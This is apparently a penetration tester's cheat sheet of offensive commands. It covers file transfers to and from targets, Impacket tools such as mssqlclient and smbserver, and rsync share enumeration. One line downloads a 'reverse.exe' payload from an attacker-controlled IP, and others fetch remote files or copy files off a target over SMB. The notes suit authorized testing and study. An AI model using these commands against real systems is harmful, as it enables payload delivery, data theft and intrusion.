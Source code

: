 Powershell wget equivalent: `powershell Invoke-WebRequest -Uri http://10.8.30.155:1337/reverse.exe -Outfile reverse.exe`

`python3 -m uploadserver` or `http.server`

`php -S [IP:port]`

Impacket smbserver
`smbserver.py`
	- `impacket-smbserver -smb2support CompData [directory for server location]`
	- `CompData` is the name that the target will use to refer to the share.
	- To transfer from target (windows example): `move [file] \\[host-IP]\CompData`


### File Transfers with Code

Python
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("[URL to file]", "[output]")'`

PHP
- `php -r '$file = file_get_contents("[file URL]"); file_put_contents("[output]",$file);'`


# IMPACKET Modules

`/home/kali/Documents/impacket/examples`


#### mssql
- add `-windows-auth` for a windows machine
- `python3 mssqlclient.py [user]@[target]`
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual-enumeration
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
	- `SELECT is_srvrolemember('sysadmin');` returned `1` meaning `true`

#### smbserver
- `smbserver.py`
	- `impacket-smbserver -smb2support CompData [directory for server location]`
	- `CompData` is the name that the target will use to refer to the share.
	- To transfer from target (windows example): `move [file] \\[host-IP]\CompData`

#### PSexec and SMBexec

# Common Services

See `Exploiting: Password Attacks` for brute forcing


RSYNC, 873
	- service for locally and remotely copying files
	- `nc -nv [IP] 873` to find shares
	- `rsync -avz --list-only rsync://[IP]/` add a `[share]` at the end to enumerate a specific share
	- to download files, remove `--list-only` and add the `/share/file` at the end of the address and a `/local/destination`
	- use rsync over ssh https://phoenixnap.com/kb/how-to-rsync-over-ssh
	- 
